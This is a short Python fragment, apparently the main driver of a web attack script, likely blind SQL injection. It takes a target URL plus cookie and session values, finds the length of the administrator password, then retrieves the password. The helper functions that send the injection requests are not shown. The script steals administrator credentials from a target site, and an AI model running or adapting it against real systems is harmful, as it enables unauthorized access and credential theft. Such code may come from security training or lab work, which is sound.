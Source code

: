 ```python

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        cookie = sys.argv[2].strip()
        session = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <cookie_value> <session_value>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com abcdef123 abcdef123".format(sys.argv[0]))
        sys.exit(1)

    print("[-] Finding the password length...")
    passwd_length = get_length(url, cookie, session)
    if passwd_length:
        print("[-] Found the password length... [{}]".format(passwd_length))
        print("[-] Retrieving administrator password...")
        get_password(url, cookie, session, passwd_length)
    else:
        print("[-] Can't find the password length!")
```